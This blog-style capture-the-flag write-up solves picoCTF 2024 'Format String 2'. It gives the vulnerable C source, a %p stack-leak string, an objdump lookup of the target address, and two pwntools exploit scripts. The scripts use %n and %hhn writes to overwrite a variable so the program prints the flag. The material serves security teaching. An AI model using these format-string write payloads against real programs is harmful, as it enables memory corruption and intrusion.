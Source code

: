 ```yaml
---
title: picoCTF - 2024 - Pwn - Format String 2 
date: '2024-04-16'
tags: ['pwn', 'fmt', 'arbitrary-write', 'picoctf']
draft: false
summary: Overwriting a variable using the Format String Bug to fulfill an if-else condition for printing flag.txt. A very interesting challenge, to be honest.
---
```

## Challenge Description

![Fmt-2-sc](/static/writeups/picoCTF/pwn/format-string-2/fmt2_chal_des.png)

## Solution

Before starting, I want to say that I am not an expert when it comes to binary exploitation. If you find mistakes in my write-ups, please let me know. I am open to any sort of constructive criticism.

Source code provided to us:

```c:vuln.c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];

  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

We want to make this if-statement true:

```c:If-Condition
if (sus == 0x67616c66)
```

But problem is the value of sus is `0x21737573`. So to solve this challenge, we basically have to overwrite the value of **`sus`** to `0x67616c66`.

As **`printf()`** is being used, we can use **`%n`** format specifier to overwrite value of sus. 

The **`%n`** modifier writes the amount of chars printed so far as an int to the address specified by the argument. Using the **`$`** specifier we could also specify from exactly where we want to read this address. We could also send the addresses as input to the program which would put those addresses on the stack.

First we want to find the offset of our input string on the stack. For that, i will pass 8 ‘A’ and will leak the addresses of the stack so that I can clearly see where the input is being stored:

```
AAAAAAAA|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p
```

Here I can see that my offset is 14:

![Fmt-2-sc](/static/writeups/picoCTF/pwn/format-string-2/fmt2_1.png)

Now, I know that I also need to know what address to write to. In this case it can be found using **`objdump`** on the binary:

```bash:objdump-command
objdump -D ./vuln | grep "sus"
```

![Fmt-2-sc](/static/writeups/picoCTF/pwn/format-string-2/fmt2_2.png)

So, basically I want to overwrite address `0x404060` with the value `0x67616c66`. Let’s start making our payload.

For creating the payload, I took help from a Guide on [Format String Bug](https://www.theflash2k.me/blog/ctf-techs/fsb-guide) written by my mentor [TheFlash2k](https://www.theflash2k.me/about). He has explain fmt in very detail.

He has also explain how to arbitrary write 4-bytes by passing one byte at a time. **[** *[Source](https://www.theflash2k.me/blog/ctf-techs/fsb-guide#writing-four-bytes)* **]**

So the final payload that I created:

```python:final-payload
#!/usr/bin/env python3
from pwn import *

# Setting up terminal context for debugging
context.terminal = ["tmux", "splitw", "-h"]

# Executable and ELF setup
exe = "./vuln"
elf = context.binary = ELF(exe)

# If the GDB argument is provided, attach GDB to the process at the specified breakpoint
if args.GDB:
    io = process()
    gdb.attach(io, "b *main+231")

io = remote("rhea.picoctf.net", 61208)
io.recvuntil(b"?\n")

# Offset = 14
# 14 (Offset) + 5 (For payload) + 1 (Address to be written on)
start = 20

# Address of the variable to be overwritten, found using objdump and grep
sus = 0x404060

# Function to calculate the difference between two values modulo 256
diff_hhn = lambda i, j: ((i - j) % 256) # (0xFF+1)

payload = f"%{0x66}c%{start}$lln".encode()            # Writing 0x66 to memory
payload += f"c%{start+1}$hhn".encode()                # Writing 0x66 to sus[0]
payload += f"%{diff_hhn(0x66,0x61)}c%{start+2}$hhn".encode()  # Writing 0x61 to sus[3]
payload += f"%{diff_hhn(0x61,0x6c)}c%{start+3}$hhn".encode()  # Writing 0x6c to sus[2]
payload += b"||||||"                                  # Padding to align memory addresses
payload += p64(sus)                                   # Address of sus
payload += p64(sus+3)                                 # Address of sus[3]
payload += p64(sus+1)                                 # Address of sus[1]
payload += p64(sus+2)                                 # Address of sus[2]

io.sendline(payload)
io.interactive()
```
### Flag:

![Fmt-2-sc](/static/writeups/picoCTF/pwn/format-string-2/fmt2_3.png)

## Bonus

You can automate this whole process by using format string bug exploitation [tools](https://docs.pwntools.com/en/stable/fmtstr.html). The script will be:

```python:payload-crafted-using-exec_fmt-&-autofmt
from pwn import *

context.log_level = "critical"

context.terminal = ["tmux", "splitw", "-h"]
exe = "./vuln"
elf = context.binary = ELF(exe)
if args.GDB: gdb.attach(io, "b *main+231")

#io = process()
io = remote("rhea.picoctf.net", 61208)

def exec_fmt(payload):
    io = remote('rhea.picoctf.net', 61208)
    io.sendline(payload)
    return io.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {0x404060: 0x67616c66})

io.sendline(payload)

flag = io.recvuntil('}').split(b"...\n")[1]
flag = flag.decode('utf-8')

print(" ")
print("Flag:", flag)
print(" ")

io.interactive()
```

This script uses the `exec_fmt`, `autofmt` to find the offset for the payload and to find the address use `objump -D vuln` (as we did earlier).

### Flag:

![Fmt-2-sc](/static/writeups/picoCTF/pwn/format-string-2/fmt2_4.png)

> *That’s it for today’s blog, take Care* 😃